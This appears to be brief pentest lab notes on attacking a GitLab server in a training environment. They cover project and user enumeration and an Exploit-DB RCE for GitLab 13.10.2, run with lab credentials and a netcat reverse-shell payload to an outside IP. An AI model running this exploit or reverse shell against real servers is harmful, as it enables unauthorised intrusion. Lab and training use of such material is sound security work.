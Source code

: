 ### Enum projects:

    http://gitlab.inlanefreight.local:8081/explore

### Enum users:

    https://github.com/dpgg101/GitLabUserEnum

### Exploit:

#### URL
    https://www.exploit-db.com/exploits/49951
#### USE
    python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f'

